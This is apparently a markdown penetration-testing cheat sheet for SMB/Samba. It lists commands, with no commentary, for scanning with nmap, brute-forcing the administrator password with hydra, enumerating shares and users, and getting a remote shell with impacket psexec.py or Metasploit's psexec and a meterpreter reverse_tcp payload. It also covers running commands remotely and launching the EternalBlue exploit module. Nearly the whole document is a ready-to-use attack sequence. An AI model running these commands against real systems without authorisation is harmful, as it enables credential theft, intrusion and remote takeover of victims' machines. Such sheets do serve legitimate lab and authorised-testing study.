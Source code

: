 # SMB/Samba
- Basic nmap scan.
  ```
  nmap -Pn -sV -sC -p445 <ip>
  ```

- Brute-force SMB login.
  ```
  hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> smb
  ```

- List shares.
  ```
  smbclient -L <ip> -U administrator
  
  smbmap -u administrator -p <password> -H <ip>
  
  use auxiliary/scanner/smb/smb_enumshares
  set SMBUser administrator
  set SMBPass <password>
  ```

- List users.
  ```
  enum4linux -u administrator -p <password> -U <ip>
  
  use auxiliary/scanner/smb/smb_enumusers
  set SMBUser administrator
  set SMBPass <password>
  ```

- Get a shell.
  ```
  locate psexec.py
  
  cp /usr/share/doc/python3-impacket/examples/psexec.py ./
  chmod +x psexec.py
  python3 psexec.py administrator@<ip> cmd.exe
  
  use exploit/windows/smb/psexec
  set payload windows/x64/meterpreter/reverse_tcp
  set SMBUser administrator
  set SMBPass <password>
  ```

- Execute command.
  ```
  smbmap -u administrator -p <password> -H <ip> -x ipconfig
  
  python3 psexec.py administrator@<ip> ipconfig
  ```

- Exploit EternalBlue.
  ```
  use auxiliary/scanner/smb/smb_ms17_010
  
  use exploit/windows/smb/ms17_010_eternalblue
  ```

